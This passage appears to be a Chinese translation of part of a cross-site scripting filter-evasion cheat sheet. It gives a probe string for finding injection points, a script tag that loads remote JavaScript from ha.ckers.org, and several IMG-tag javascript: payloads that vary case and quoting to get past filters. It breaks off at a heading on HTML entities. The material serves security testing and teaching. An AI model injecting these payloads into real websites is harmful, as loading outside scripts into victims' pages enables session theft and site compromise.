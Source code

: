 如果你没有充足的输入空间去检测页面是否存在xss漏洞。下面这段代码是一个好的简洁的xss注入检测代码。在注入这段代码后，查看页面源代码寻找是否存在看起来像 <XSS verses <XSS这样的输入点从而判断是否存在xss漏洞。

```
'';!--"<XSS>=&{()}

```

* * *

无过滤绕过
-----

这是一个常规的xss注入代码，虽然通常它会被防御，但是我们建议首先去尝试它。（引号是不被需要的在任何现代浏览器中，因此这里省略了它。）

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

```

* * *

* * *

通过javascript指令实现的图片xss
----------------------

图片xss依靠javascript指令实现。（IE7.0不支持javascript指令在图片上下文中，但是可以在其他上下文触发。下面的例子仅仅展示了一种其他标签依旧通用的原理。）

```
<IMG SRC="javascript:alert('XSS');">

```

* * *

无引号无分号
------

```
<IMG SRC=javascript:alert('XSS')>

```

* * *

不区分大小写的xss攻击向量
--------------

```
<IMG SRC=JaVaScRiPt:alert('XSS')>

```

* * *

html 实体
-------

The semicolons are required for this to work:
